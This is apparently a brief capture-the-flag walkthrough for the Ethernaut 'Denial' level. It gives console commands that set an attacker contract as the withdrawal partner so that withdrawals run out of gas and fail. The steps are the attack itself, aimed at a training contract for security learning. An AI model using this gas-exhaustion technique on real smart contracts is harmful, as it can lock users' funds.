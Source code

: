 ## Ethernaut-solution

### 20. Denial


1. deploy DenialAttack.sol 

2. 
```
> contract
n {methods: {…}, abi: Array(6), address: '0x084d1e5F01b1bf2ad05080D1f5843237BfeD49Cc', transactionHash: undefined, constructor: ƒ, …} 
```

3. paste DenialAttack address //DenialAttack be WithdrawPartner, always assert error if you try to withdraw fund
```
ontract.setWithdrawPartner("0x97EB3A7dcd84b417317045af7e6351c4750AD6e5")
```

4. contract.withdraw() //partner.call{value:amountToSend}(""); gonna foeward all of the remaining gas for this trnasaction to execute this function 